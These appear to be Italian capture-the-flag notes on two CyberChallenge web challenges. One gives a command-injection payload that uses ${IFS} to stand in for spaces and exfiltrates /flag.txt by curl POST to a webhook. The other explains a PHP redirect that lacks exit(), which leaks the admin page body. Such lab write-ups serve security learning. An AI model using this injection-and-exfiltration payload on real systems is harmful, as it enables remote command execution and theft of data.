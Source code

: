 
## Basic RCE:

==link== = “[http://basicrce.challs.cyberchallenge.it/](http://basicrce.challs.cyberchallenge.it/)”

==solve:==
inviare una richiesta POST contenente la flag a un webhook.

==note:==
[[Special Characters and Regex in Shell Commands#Regex|Regex]]
${IFS} - (sostitutivo di spazio per bash)
$(bash cmd) - (command sostitution)
[[Shell Commands|Shell Commands]]
awk - per comporre le stringhe

==input:==

```bash
www.google.com|curl${IFS}-d${IFS}"idx=$(cat${IFS}/flag.txt)"${IFS}-X${IFS}POST${IFS}<webhook link>
```
------
## Admin:Admin

==link== = "http://adminadmin.challs.cyberchallenge.it/admin.php"

==solve:==
nello script PHP della pagina admin.php possiamo vedere che dopo il controllo dell'autenticazione della sessione viene settato `header(Location:login.php)`, tuttavia manca un `exit()` o un `die()` per terminare i dati nella risposta.
Dunque si ottiene un redirect con un body.

Curl ottiene l'header ma non fa il redirect, legge la singola risposta ricevuta.


```bash
curl -v -X GET http://adminadmin.challs.cyberchallenge.it/admin.php
```
---
